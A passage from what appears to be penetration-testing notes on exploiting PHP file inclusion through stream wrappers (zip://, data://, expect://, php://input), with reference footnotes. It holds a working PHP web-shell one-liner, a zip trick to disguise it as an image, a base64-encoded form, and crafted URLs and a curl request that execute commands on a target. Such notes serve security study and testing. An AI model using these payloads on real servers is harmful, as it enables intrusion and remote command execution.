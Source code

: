 ```sh
echo -n '<?php system($_GET['c']); ?>' > shell.php
zip shell.jpg shell.php
```
```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=zip://shell.jpg%23shell.php
```

### data://

[data://](https://www.php.net/manual/en/wrappers.data.php) is a wrapper for [RFC2397](https://tools.ietf.org/html/rfc2397),
or `data://` scheme.
The scheme allows the inclusion of small data items
as if it had been included externally.
[^ietf-rfc2397]

PHP Shell Script.

```sh
echo -n '<?php system($_GET['c']); ?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4=
```
```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4=&c=ls
```

### expect://

[`expect://`](https://www.php.net/manual/en/wrappers.expect.php) wrapper provide access to processes'
`stdio`, `stdout` and `stderr`
via PTY.

```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=expect://ls
```

### php://input

[`php://input`](https://www.php.net/manual/en/wrappers.php.php#wrappers.php.input) is a read-only stream that allows to read raw data
from the request body.

```sh
curl -X POST --data "<?php echo shell_exec('ls'); ?>" "http://{{< param "m.RDOMAIN" >}}/index.php?page=php://input%00" -v
```
## The `proc` File System

The `proc` file system (`procfs`)
contains a hierarchy of special files
that represent the current state of the kernel.
It acts as an interface
to internal data structures in the kernel
for applications and users.


[^owasp-path-traversal]: “Path Traversal - OWASP.” OWASP, https://wiki.owasp.org/index.php/Path_Traversal.
[^wiki-file-inclusion]: Contributors to Wikimedia projects. “File Inclusion Vulnerability - Wikipedia.” Wikipedia, the Free Encyclopedia, Wikimedia Foundation, Inc., 24 Nov. 2006, https://en.wikipedia.org/wiki/File_inclusion_vulnerability.
[^swissky-dt]: swisskyrepo. “PayloadsAllTheThings / Directory Traversal.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal.
[^unc-share]: “CWE-40: Path Traversal: ‘\\UNC\share\name\’ (Windows UNC Share) (4.1).” CWE -  Common Weakness Enumeration, https://cwe.mitre.org/data/definitions/40.html.
[^data-scheme]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^apache-log]: “Log Files - Apache HTTP Server Version 2.4.” Welcome! - The Apache HTTP Server Project, https://httpd.apache.org/docs/2.4/logs.html.
[^php-wrappers]: “PHP: Supported Protocols and Wrappers - Manual.” PHP: Hypertext Preprocessor, https://www.php.net/manual/en/wrappers.php.
[^ietf-rfc2397]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^kernel-proc]: “The /Proc Filesystem.” The Linux Kernel  Documentation, https://www.kernel.org/doc/html/latest/filesystems/proc.html.
[^route-lookup]: Bernat, Vincent. “IPv4 Route Lookup on Linux ⁕ Vincent Bernat.” MTU Ninja Vincent Bernat, https://vincent.bernat.ch/en/blog/2017-ipv4-route-lookup-linux.
[^linux-man-proc]: “Proc(5) - Linux Manual Page.” Michael Kerrisk - Man7.Org, https://man7.org/linux/man-pages/man5/proc.5.html.
[^ush-lfi2rce]: “LFI2RCE (Local File Inclusion to Remote Code Execution) Advanced Exploitation: /Proc Shortcuts.” Ush.It - a Beautiful Place, https://www.ush.it/2008/08/18/lfi2rce-local-file-inclusion-to-remote-code-execution-advanced-exploitation-proc-shortcuts/.